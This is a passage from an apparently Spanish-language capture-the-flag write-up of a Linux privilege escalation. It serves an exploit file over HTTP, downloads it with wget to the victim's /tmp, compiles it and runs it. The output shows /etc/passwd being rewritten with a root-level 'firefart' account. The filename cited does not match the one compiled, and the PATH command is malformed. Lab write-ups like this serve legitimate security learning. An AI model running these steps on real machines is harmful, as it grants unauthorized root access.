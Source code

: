 ```shell
python3 -m http.server 80
```

Maquina `Victima`:

```shell
wget http://<IP>/40839.c
```

Una vez teniendolo en nuestra carpeta `/tmp/` haremos lo siguiente con el archivo `33589.c`...

```shell
gcc -pthread 40839.c -o exploit -lcrypt
```

Nos dara el siguiente error...

```
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Hacemos lo siguiente...

```
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

Ahora si lo volvemos a ejecutar nos dejara...

```shell
gcc -pthread 40839.c -o exploit -lcrypt
```

Ejecutamos el `exploit`...

```shell
./exploit
```

Info:

```
Enter your new password: 1234
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: 7f4d3ceb4000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ /etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: 7f4d3ceb4000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
